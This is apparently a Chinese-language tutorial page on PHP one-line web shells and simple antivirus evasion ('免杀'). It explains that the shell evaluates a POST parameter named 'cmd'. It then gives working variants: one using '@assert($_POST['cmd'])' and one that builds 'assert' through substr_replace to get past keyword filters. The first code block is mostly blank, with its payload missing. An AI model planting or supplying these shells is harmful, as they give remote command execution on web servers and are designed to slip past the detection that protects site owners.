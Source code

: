 #### <font style="color:rgb(79, 79, 79);">常见形式：</font>
<font style="color:rgb(77, 77, 77);">常见的一句话木马：</font>

```plain
php的一句话木马： <?php                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     ?>
```

<font style="color:rgb(77, 77, 77);">这是php的一句话后门中最普遍的一种。它的工作原理是：</font>  
<font style="color:rgb(77, 77, 77);">首先存在一个名为'cmd'的变量，'cmd'的取值为HTTP的POST方式。Web服务器对'cmd'取值以后，然后通过eval()函数执行'cmd'里面的内容。</font>

#### <font style="color:rgb(79, 79, 79);">一句话木马简单免杀</font>
<font style="color:rgb(77, 77, 77);">从上面的演示中可以看到一句话木马的简单、高效，但就是因为其过于简单，查杀起来也很方便，所以要对其进行变形，让它不容易被发现。以下是几个免杀方法：</font>

##### <font style="color:rgb(77, 77, 77);">一、assert()</font>
如果过滤了eval可以使用assert绕过

<font style="color:rgb(85, 86, 102);background-color:rgb(238, 240, 244);">assert() 会检查指定的 assertion 并在结果为true时执行</font>

```php
<?php @assert($_POST['cmd']); ?>
```

##### 二、字符串拼接
当过滤了<font style="color:#601BDE;">eval assert</font><font style="color:#000000;">两个关键字时，我们可以使用字符串拼接的方式 </font><font style="color:rgb(77, 77, 77);">介绍substr_replace()函数</font>

```php
substr_replace(string,replacement,start,length)
```

|  参数 | 描述 |
| --- | --- |
| <font style="color:rgb(79, 79, 79);">string</font> | <font style="color:rgb(79, 79, 79);">必需，规定检查的字符串。</font> |
| <font style="color:rgb(79, 79, 79);background-color:rgb(247, 247, 247);">replacement</font> | <font style="color:rgb(79, 79, 79);background-color:rgb(247, 247, 247);">必需，规定要插入的字符串。</font> |
| start | <font style="color:rgb(79, 79, 79);">必需，规定在字符串的何处开始替换。若为0，从头开始。</font> |
| length | <font style="color:rgb(79, 79, 79);background-color:rgb(247, 247, 247);">可选。规定要替换多少个字符。默认是与字符串长度相同。</font> |


```php
<?php
	$a=substr_replace("assexx","rt",4);
	@$a($_POST['cmd']);
?>
```
